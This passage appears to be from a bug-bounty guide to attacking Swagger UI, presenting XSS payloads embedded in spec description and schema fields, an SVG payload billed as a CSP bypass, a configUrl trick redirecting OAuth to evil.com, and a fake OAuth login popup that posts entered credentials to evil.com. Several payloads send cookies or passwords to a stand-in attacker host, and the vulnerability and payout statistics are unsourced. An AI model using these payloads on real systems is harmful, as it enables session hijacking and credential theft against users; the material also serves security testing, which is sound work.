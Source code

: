 ### 2. 🕸️ Cross-Site Scripting (XSS): The Swiss Army Knife

Swagger UI renders many fields as HTML, creating multiple XSS opportunities.

#### Description-Based XSS:
```yaml
swagger: '2.0'
info:
  title: API
  description: "<img src=x onerror='fetch(`https://evil.com/c?cookie=${btoa(document.cookie)}`)'>"
```

#### SVG-Based Payloads (CSP Bypass):
```yaml
description: |
  <svg><animatetransform onbegin="alert(document.domain)"></animatetransform></svg>
```

#### Model Schema Injection:
```yaml
schema:
  description: "<iframe srcdoc=\"<script>parent.alert(document.domain)</script>\">"
```

#### 📊 Statistics:
- 62% of Swagger UI instances found vulnerable to at least one XSS vector
- Average payout for Swagger UI XSS: $2,500-$4,000

### 3. 🔄 OAuth Flow Manipulation: The Identity Thief

Swagger UI's OAuth implementation can be manipulated to steal credentials and tokens.

#### Redirect URI Manipulation:
```
/swagger-ui/?configUrl=https://evil.com/oauth.json
```

Where oauth.json contains:
```json
{
  "oauth2RedirectUrl": "https://evil.com/steal_token.html"
}
```

#### Fake OAuth Window:
```javascript
// Inject fake OAuth popup that steals credentials
const popup = window.open('', 'oauth2', 'width=500,height=500');
popup.document.write(`
  <h2>Login to continue</h2>
  <form id="login">
    <input type="text" placeholder="Username">
    <input type="password" placeholder="Password">
    <button>Login</button>
  </form>
  <script>
    document.getElementById('login').addEventListener('submit', e => {
      e.preventDefault();
      fetch('https://evil.com/steal', {
        method: 'POST',
        body: new FormData(e.target)
      });
      window.opener.postMessage({token: 'fake_token'}, '*');
      window.close();
    });
  </script>
```